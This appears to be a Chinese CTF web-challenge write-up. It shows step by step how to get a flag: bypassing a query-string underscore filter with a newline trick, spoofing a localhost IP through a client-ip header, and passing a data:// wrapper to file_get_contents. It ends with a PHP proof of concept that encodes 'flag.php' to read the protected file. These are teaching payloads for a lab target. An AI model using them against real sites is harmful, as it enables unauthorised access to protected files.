

1.这道题相对来说就很基础了，首先登上去网页都是空白的


然后f12查看源代码

```
$query = $_SERVER['QUERY_STRING'];

 if( substr_count($query, '_') !== 0 || substr_count($query, '%5f') != 0 ){
    die('Y0u are So cutE!');
}
 if($_GET['b_u_p_t'] !== '23333' && preg_match('/^23333$/', $_GET['b_u_p_t'])){
    echo "you are going to the next ~";
}
```

这就是一个很简单的绕过哈，首先绕过一下这个下划线，这个空格和.都可以绕过，然后就是一个绕过正则匹配表达式，这个现在看就很简单哈，最基础的，不懂的话可以康康我博客里面的--CTF中那些奇奇怪怪的正则表达式这篇文章，由浅入深讲解了正则表达式，下面就直接给个Payload吧

```
?b.u.p.t=23333%0a
```

2.然后访问给出了信息


接着访问它查看源码就会看到下面这一串加密的字符，这个在CTF里面还算是比较常见的，就是一个名叫JsFuck的加密方式


把这个放到网站上解密之后的结果就是会弹出一个弹框，里面写着POST Merak，然后用POST访问加个参数Merak=1，就会在页面中展出网站的一个php源码

```
<?php 
error_reporting(0); 
include 'takeip.php';
ini_set('open_basedir','.'); 
include 'flag.php';

if(isset($_POST['Merak'])){ 
    highlight_file(__FILE__); 
    die(); 
} 


function change($v){ 
    $v = base64_decode($v); 
    $re = ''; 
    for($i=0;$i<strlen($v);$i++){ 
        $re .= chr ( ord ($v[$i]) + $i*2 ); 
    } 
    return $re; 
}
echo 'Local access only!'."<br/>";
$ip = getIp();
if($ip!='127.0.0.1')
echo "Sorry,you don't have permission!  Your ip is :".$ip;
if($ip === '127.0.0.1' && file_get_contents($_GET['2333']) === 'todat is a happy day' ){
echo "Your REQUEST is:".change($_GET['file']);
echo file_get_contents(change($_GET['file'])); }
?>
```

3.审计一下，一开始条件的话就两个点哈，第一就是ip必须是127.0.0.1，第二就是满足2333这个参数里面的值等于todat is a happy day

```
1.首先说第一点，这个一开始我是直接将X-Forwarded-For这个参数改成127.0.0.1，结果不太行，然后上网查了几个改ip的方法，最终确定了要用这个client-ip: 127.0.0.1
2.第二点这个有坑啊，一开始脑抽了，直接写的$2333=todat is a happy day,然后才想到这个file_get_contents（）函数是把一个文件转换成字符串，既然没文件，那肯定就是用伪协议了，一看这不是data就是input，这里用的data啊，写下这个Payload：&2333=data://text/plain,todat+is+a+happy+day
```

4.就剩下最后一点了，这点也很简单，咱们最终目的是把flag.php传到file\_get\_contents（）里面，但是在这之前会用到一个change（）函数，而这个函数的目的就是先把传进去的参数解密，然后放到一个字典里面，遍历所有的字符，把他们的ASCII值加+上自己索引的二倍，然后转换成字符串作为函数的返回值，那我们要想传一个flag.php,只要相反的做一遍这个事情就可以了，下面写个POC

```
<body>

<?php
function rechange($v){

    $re = '';
    for($i=0;$i<strlen($v);$i++){
        $re .= chr ( ord ($v[$i]) - $i*2 );
    }
    $m = base64_encode($re);
    return $m;
}
$s = 'flag.php';
$a = rechange($s);
echo $a;
?>
<body>
```

然后输出的结果就是ZmpdYSZmXGI=


5.最后把这些条件叠加一下就得到flag啦！



Finish!!!